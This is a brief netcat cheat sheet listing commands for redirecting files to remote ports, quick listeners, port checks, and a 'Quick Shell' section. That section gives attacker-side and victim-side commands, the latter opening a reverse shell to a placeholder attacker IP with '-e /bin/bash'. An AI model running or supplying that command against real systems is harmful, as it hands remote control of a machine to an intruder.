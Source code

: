 Netcat - Redirect file or HTTP header to a remote port
-------------------------------------------
UDP redirect file to port 37
```
nc -v -u xxx.xxx.xxx.xxx 37 < ./file.txt
```
TCP redirect file to port 80
```
nc xxx.xxx.xxx.xxx 80 < ./file.txt
```
TCP redirect post-headers to port 80
```
nc xxx.xxx.xxx.xxx 80 < ./post-headers.txt
```

Netcat - Quick Listener
-------------------------------------------
Start Listener
```
nc -l 3333
```
Connect to Listener
```
nc xxx.xxx.xxx.xxx 3333
```

Netcat - Quick Shell
-------------------------------------------
On attackers server
```
nc -lvvnp 1337
```
On victims server
```
nc <attackers server ip> 1337 -e /bin/bash
```

Netcat - Check if a port is open
-------------------------------------------
TCP
```
nc -z -v xxx.xxx.xxx.xxx <portnumber>
```
UDP
```
nc -z -v -u xxx.xxx.xxx.xxx <portnumber>
```

